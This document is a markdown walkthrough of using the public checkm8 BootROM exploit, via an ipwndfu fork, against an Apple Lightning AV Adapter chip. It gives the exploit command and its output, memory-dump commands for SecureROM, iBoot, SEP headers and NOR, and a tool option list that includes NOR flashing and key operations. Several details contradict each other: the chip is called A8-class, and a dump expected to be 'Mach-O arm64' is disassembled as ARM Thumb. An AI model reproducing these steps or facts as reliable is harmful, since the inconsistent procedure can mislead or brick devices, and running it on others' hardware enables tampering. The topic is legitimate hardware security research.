


# checkm8 Against the Apple Lightning AV Adapter (S5L8747)

Target: Apple Lightning Digital AV Adapter — **S5L8747 (A8-class SoC)**,
`CPID:8747 CPRV:10`, running `iBoot-1413.8`. An Apple accessory with a
checkm8-vulnerable BootROM.

## 1. Target identification

Put the adapter in DFU mode and confirm it enumerates as an Apple DFU device
(Product ID `0x1227`). The exploit tool reports the device fingerprint on
every run:

```
found: CPID:8747 CPRV:10 CPFM:03 SCEP:10 BDID:00 ECID:000003C107A529B5 IBFL:00 SRTG:[iBoot-1413.8]
```

Note: the adapter's ECID initially resembled an A12Z DTK unit's. It is not —
`CPID:8747` positively identifies the S5L8747. Do not chase the DTK lead.


*Illustrated overview. The S5L8747 / CPID:8747 / iBoot-1413.8 labels are
sourced; board-level details (DRAM, PMIC callouts) are illustrative.*



## 2. Exploit

Use the **ipwndfu-haywire fork** (A8-capable ipwndfu variant), from the
repository directory, with the adapter in DFU mode:

```bash
cd ipwndfu-haywire-master
sudo python ./ipwndfu -p
```

Receipt (2025-05-30):

```
found: CPID:8747 CPRV:10 CPFM:03 SCEP:10 BDID:00 ECID:000003C107A529B5 IBFL:00 SRTG:[iBoot-1413.8]
leaking...
triggering UaF...
sending payload...
found: CPID:8747 CPRV:10 CPFM:03 SCEP:10 BDID:00 ECID:000003C107A529B5 IBFL:00 SRTG:[iBoot-1413.8] PWND:[checkm8]
exploit success!
took 1.17s
```

The device is now in pwned DFU mode. Keep it connected and powered — do not
let it reboot before dumping.


## 3. Post-exploit dump sequence

While the device remains in pwned DFU mode, in order:

```bash
# SecureROM — this fork names the output file itself
sudo python ./ipwndfu --dump-rom
# Saved: SecureROM-s5l8747xsi-1413.8-RELEASE.dump

# iBoot (loaded at 0x180000000 on this target, 128 KiB)
sudo python ./ipwndfu --dump=0x180000000,0x20000 > iboot-1413.8.bin

# SEP firmware headers
sudo python ./ipwndfu --dump=0x190000000,0x10000 > sep_headers.bin

# Device tree
sudo python ./ipwndfu --dump=0x1F0000000,0x4000 > devicetree.dtb

# Full NOR (slow; optional)
sudo python ./ipwndfu --dump-nor=nor.bin
```

Then checksum and archive everything immediately:

```bash
mkdir "S5L8747_dump_$(date +%Y%m%d)" && mv *.dump *.bin *.dtb "$_"/
shasum -a 256 "$_/"* > "$_/checksums.txt"
file "$_/SecureROM-s5l8747xsi-1413.8-RELEASE.dump"   # expect: Mach-O arm64
```

Post-dump triage:

```bash
strings SecureROM-s5l8747xsi-1413.8-RELEASE.dump > SecureROM_strings.txt
arm-none-eabi-objdump -D -b binary -m arm -M force-thumb \
    SecureROM-s5l8747xsi-1413.8-RELEASE.dump > SecureROM_disassembly.txt
```

### Known tool quirk: 64-bit `--dump` addresses

The haywire fork had trouble with 64-bit dump addresses in some builds
(`--dump=0x180000000,0x20000` failing to parse). If the address form fails,
fall back to `irecovery` for the iBoot dump. `--dump-iboot` is **not** a
valid option in this fork — it errors with `Invalid arguments provided`.

## 4. Full option reference (ipwndfu-haywire fork)

```
USAGE: ipwndfu [options]
Interact with an iOS device in DFU Mode.

Basic options:
  -p                    USB exploit for pwned DFU Mode
  -x                    install alloc8 exploit to NOR
  -f file               send file to device in DFU Mode
Advanced options:
  --demote              demote device to enable JTAG
  --boot                boot device
  --dump=address,length  dump memory to stdout
  --hexdump=address,length
  --dump-rom            dump SecureROM
  --dump-nor=file       dump NOR to file
  --flash-nor=file      flash NOR (header and firmware only) from file
  --24kpwn              install 24Kpwn exploit to NOR
  --remove-24kpwn       remove 24Kpwn exploit from NOR
  --remove-alloc8       remove alloc8 exploit from NOR
  --decrypt-gid=hexdata AES decrypt with GID key
  --encrypt-gid=hexdata AES encrypt with GID key
  --decrypt-uid=hexdata AES decrypt with UID key
  --encrypt-uid=hexdata AES encrypt with UID key
```

## 5. Adjacent artifact collection

After the PWND, host-side Apple certificate material was enumerated from the
macOS True Certs store (`apple_corporate_*`, `apple_corporate_root_ca` PEMs).
These are **host certificates, not device-extracted keys** — useful as
reference material for chain analysis, not as exploit artifacts.

## Notes and corrections

- `checkra1n` was suggested at one point for this target. It is the wrong
  tool: checkra1n does not support the S5L8747 accessory. Stay with ipwndfu.
- The "remote brick" concern raised at the time: a fused chip cannot be
  downgraded, so avoid normal boot until intended; DFU mode itself loads no
  baseband and phones nothing home.
- Do **not** run `--flash-nor` variants against this adapter unless you have
  a verified-good backup — several flash commands appear in the transcripts
  as exploratory typing, not executed procedure.
